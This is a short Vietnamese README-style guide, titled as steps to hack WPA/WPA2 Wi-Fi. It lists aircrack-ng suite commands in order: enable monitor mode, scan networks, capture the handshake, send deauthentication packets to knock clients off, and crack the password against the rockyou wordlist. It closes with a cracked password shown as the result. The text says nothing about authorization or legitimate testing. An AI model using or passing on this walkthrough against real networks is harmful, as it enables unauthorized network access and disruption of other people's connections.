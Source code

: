 ## 🛠️ Các bước thực hiện hack Wi-Fi (WPA/WPA2)

```bash
1. iwconfig
```

→ Kiểm tra các thiết bị kết nối mạng không dây.

```bash
2. sudo airmon-ng start wlan0
```
→ airmon-ng : bật tắt chế độ monitor và dừng tiến trình gây xung đột.

→ Bật chế độ monitor cho card mạng.

```bash
3. sudo airmon-ng check kill
```
→ Dừng các dịch vụ gây xung đột.

```bash
4. sudo airodump-ng wlan0mon
```
*công dụng airodump-ng*
  - quét và giám sát các mạng wifi xung quanh
  - thu thập được : SSID ( tên mạng ), BSSID ( địa chỉ MAC ), kênh ( channel ), mã hóa (WEP/WPA/WPA2), số lượng client kết nối.
  - Bắt handshake (quá trình xác thực giữa thiết bị và router) dùng để dò mật khẩu.
→ Quét và thu thập thông tin mạng Wi-Fi.

    **Ctrl + C** để thoát.

```bash
5. sudo airodump-ng --bssid <bssid> --channel <ch> --write wpa2hack wlan0mon
```

→ Bắt handshake WPA/WPA2 từ một Wi-Fi và lưu vào file `wpa2hack.cap`.

```bash
6. sudo aireplay-ng --deauth 4 -a <bssid> -c <station> wlan0mon
```

→ Gửi gói `deauth` để ngắt kết nối thiết bị khỏi Wi-Fi.
Mục đích: ép thiết bị kết nối lại để bết handshake.

```bash
7. sudo aircrack-ng <file.cap> -w /usr/share/wordlists/rockyou.txt
```

→ Dò mật khẩu Wi-Fi bằng file từ điển `rockyou.txt`.

---

### ✅ Kết quả:

```
Sanh Dieu [ 00001111 ]
```
